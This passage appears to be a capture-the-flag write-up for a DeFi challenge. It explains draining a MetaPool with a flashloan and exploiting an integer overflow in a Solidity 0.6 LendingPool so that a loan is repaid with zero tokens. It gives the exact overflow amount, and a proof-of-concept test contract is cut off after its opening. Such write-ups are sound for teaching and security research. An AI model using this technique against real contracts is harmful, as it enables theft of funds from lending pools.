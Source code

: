 ### The flashloan amount
To calculate the amount of flashloan, I tried to dive into the numeric algorithm, but it's so complex then I tried bisection method, eg: try the number 1, if it's too small then try 2, if still too smal then try 4, if too large then try 3. 
After a couple of minutes I got this number: `1046_982343863283000000`, which pumps the price to 7 times, so our 10 ether becomes 70 ether and the MetaPool is drained.


## Bug of the `LendingPool`
The contract is compiled with solc of version `0.6`, before version `0.8` there's always the number overflow bug:
```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data
    ) external override returns (bool) {
        ...
        uint256 repayAmount;
        repayAmount = amount + feeAmount;
        require(WETH.transferFrom(address(receiver), address(this), repayAmount), "LendingPool: flash loan amount + fee not returned");
        return true;
    }

```
If we find an `amount` that satisfies `amount + feeAmount == 0`(overflows to 0), it means we can borrow token without returning it(return 0 amount).

The fomular is:
repayAmount == amount + fee == amount + amount/1000*5 == uint.max + 1 == 2**256
    =>
amount + amount/1000*5 == 2**256
1005*amount == 2**256*1000
    =>
amount == 0xfeb9f34380a3065e3fae7cd0e028c1978feb9f34380a3065e3fae7cd0e028c1a



# POC
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/CurvePool.sol";
import "../src/CurveToken.sol";
import "../src/interfaces/ILendingPool.sol";
import "../src/MetaPoolToken.sol";
import "../src/interfaces/IERC3156.sol";
import "forge-std/console.sol";



contract Challenge is Test {
    ILendingPool public wethLendingPool;
    CurvePool public swapPoolEthWeth;
    CurveToken public lpToken;
    IWETH public weth;
    MetaPoolToken public metaToken;
    address hacker;
    address alice;
    address bob;

    function setUp() public {
```